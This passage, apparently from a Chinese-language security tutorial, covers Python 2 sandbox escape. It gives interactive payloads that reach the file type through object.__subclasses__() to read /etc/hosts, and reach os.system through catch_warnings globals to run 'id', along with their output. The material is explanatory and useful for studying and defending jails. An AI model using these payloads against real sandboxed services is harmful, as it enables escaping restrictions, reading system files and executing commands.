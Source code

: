 - `os.popen('ls')`


## 0x02 python lib

Python 都是通过引入不同的库，来执行其中的函数。关于Import 的各种方式，可以看看[这里](https://xz.aliyun.com/t/52#toc-9)的总结。我这里直接列出Payload:

```
&gt;&gt;&gt; [].__class__
&lt;type 'list'&gt;
&gt;&gt;&gt; [].__class__.__base__
&lt;type 'object'&gt;
&gt;&gt;&gt; [].__class__.__base__.__subclasses__
&lt;built-in method __subclasses__ of type object at 0x55a9f3d5cb80&gt;
&gt;&gt;&gt; [].__class__.__base__.__subclasses__()
[&lt;type 'type'&gt;, &lt;type 'weakref'&gt;, &lt;type 'weakcallableproxy'&gt;, &lt;type 'weakproxy'&gt;, &lt;type 'int'&gt;, &lt;type 'basestring'&gt;, &lt;type 'bytearray'&gt;, &lt;type 'list'&gt;, &lt;type 'NoneType'&gt;, &lt;type 'NotImplementedType'&gt;, &lt;type 'traceback'&gt;, &lt;type 'super'&gt;, &lt;type 'xrange'&gt;, &lt;type 'dict'&gt;, &lt;type 'set'&gt;, &lt;type 'slice'&gt;, &lt;type 'staticmethod'&gt;, &lt;type 'complex'&gt;, &lt;type 'float'&gt;, &lt;type 'buffer'&gt;, &lt;type 'long'&gt;, &lt;type 'frozenset'&gt;, &lt;type 'property'&gt;, &lt;type 'memoryview'&gt;, &lt;type 'tuple'&gt;, &lt;type 'enumerate'&gt;, &lt;type 'reversed'&gt;, &lt;type 'code'&gt;, &lt;type 'frame'&gt;, &lt;type 'builtin_function_or_method'&gt;, &lt;type 'instancemethod'&gt;, &lt;type 'function'&gt;, &lt;type 'classobj'&gt;, &lt;type 'dictproxy'&gt;, &lt;type 'generator'&gt;, &lt;type 'getset_descriptor'&gt;, &lt;type 'wrapper_descriptor'&gt;, &lt;type 'instance'&gt;, &lt;type 'ellipsis'&gt;, &lt;type 'member_descriptor'&gt;, &lt;type 'file'&gt;, &lt;type 'PyCapsule'&gt;, &lt;type 'cell'&gt;, &lt;type 'callable-iterator'&gt;, &lt;type 'iterator'&gt;, &lt;type 'sys.long_info'&gt;, &lt;type 'sys.float_info'&gt;, &lt;type 'EncodingMap'&gt;, &lt;type 'fieldnameiterator'&gt;, &lt;type 'formatteriterator'&gt;, &lt;type 'sys.version_info'&gt;, &lt;type 'sys.flags'&gt;, &lt;type 'exceptions.BaseException'&gt;, &lt;type 'module'&gt;, &lt;type 'imp.NullImporter'&gt;, &lt;type 'zipimport.zipimporter'&gt;, &lt;type 'posix.stat_result'&gt;, &lt;type 'posix.statvfs_result'&gt;, &lt;class 'warnings.WarningMessage'&gt;, &lt;class 'warnings.catch_warnings'&gt;, &lt;class '_weakrefset._IterationGuard'&gt;, &lt;class '_weakrefset.WeakSet'&gt;, &lt;class '_abcoll.Hashable'&gt;, &lt;type 'classmethod'&gt;, &lt;class '_abcoll.Iterable'&gt;, &lt;class '_abcoll.Sized'&gt;, &lt;class '_abcoll.Container'&gt;, &lt;class '_abcoll.Callable'&gt;, &lt;type 'dict_keys'&gt;, &lt;type 'dict_items'&gt;, &lt;type 'dict_values'&gt;, &lt;class 'site._Printer'&gt;, &lt;class 'site._Helper'&gt;, &lt;type '_sre.SRE_Pattern'&gt;, &lt;type '_sre.SRE_Match'&gt;, &lt;type '_sre.SRE_Scanner'&gt;, &lt;class 'site.Quitter'&gt;, &lt;class 'codecs.IncrementalEncoder'&gt;, &lt;class 'codecs.IncrementalDecoder'&gt;]
&gt;&gt;&gt; [].__class__.__base__.__subclasses__()[40]
&lt;type 'file'&gt;
&gt;&gt;&gt; [].__class__.__base__.__subclasses__()[40]('/etc/hosts','r').read()
'127.0.0.1tlocalhostn127.0.1.1tdebiannn# The following lines are desirable for IPv6 capable hostsn::1     localhost ip6-localhost ip6-loopbacknff02::1 ip6-allnodesnff02::2 ip6-allroutersn'
```

`[].__class__.__base__.__subclasses__()[40]('/etc/hosts','r').read()`通过调用File函数来读取或者写文件。

`"".__class__.__mro__[-1].__subclasses__()[40]('/etc/hosts').read()`

遍历是否有catch_warnings，在导入linecache时会在导入os模块：

```
&gt;&gt;&gt; g_warnings = [x for x in ().__class__.__base__.__subclasses__() if x.__name__ == "catch_warnings"][0].__repr__.im_func.func_globals
&gt;&gt;&gt; print g_warnings["linecache"].os
&lt;module 'os' from '/usr/lib/python2.7/os.pyc'&gt;
&gt;&gt;&gt; print g_warnings["linecache"].os.system('id')
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),116(scanner)
```
